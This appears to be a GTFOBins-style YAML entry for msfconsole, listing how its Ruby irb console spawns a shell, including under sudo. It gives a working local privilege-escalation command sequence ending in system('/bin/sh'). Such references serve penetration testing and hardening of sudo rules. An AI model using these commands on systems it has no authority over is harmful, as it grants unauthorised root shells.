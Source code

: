 ```yaml
---
description: This allows to spawn a [`ruby`](/gtfobins/ruby/) interpreter.
functions:
  shell:
    - code: |
        sudo msfconsole
        msf6 > irb
        >> system("/bin/sh")
  sudo:
    - code: |
        sudo msfconsole
        msf6 > irb
        >> system("/bin/sh")
---
```

